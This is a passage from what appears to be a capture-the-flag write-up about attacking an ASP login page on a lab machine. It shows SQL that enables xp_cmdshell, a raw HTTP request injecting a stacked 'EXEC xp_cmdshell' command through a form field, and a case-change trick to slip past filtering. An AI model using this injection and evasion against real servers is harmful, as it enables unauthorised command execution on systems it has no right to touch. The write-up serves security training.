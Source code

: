 ```sql
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```http
POST /old/verify.asp HTTP/1.1
Host: members.streetfighterclub.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://members.streetfighterclub.htb
Connection: close
Referer: http://members.streetfighterclub.htb/old/Login.asp
Cookie: ASPSESSIONIDSQRDQTCD=GPFNOGOAIKIKAKLOPLMLHBBA; 
Upgrade-Insecure-Requests: 1



username=wad1awdawd23&password=t123awd34&logintype=3;EXEC+xp_cmdshell+"ping+10.10.14.11"--+-&B1=LogIn
```

However, I got no ping back. In this case, there might be something blocking us on the website. I searched ways to obfuscate it, in case there was Defender or something blocking us, and this site had a pretty good way:

{% embed url="https://www.midnightdba.com/Jen/2016/04/xp_cmdshell-isnt-evil/" %}

Just use `XP_cmdshell` instead of `xp_cmdshell`, and the ping would work:

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
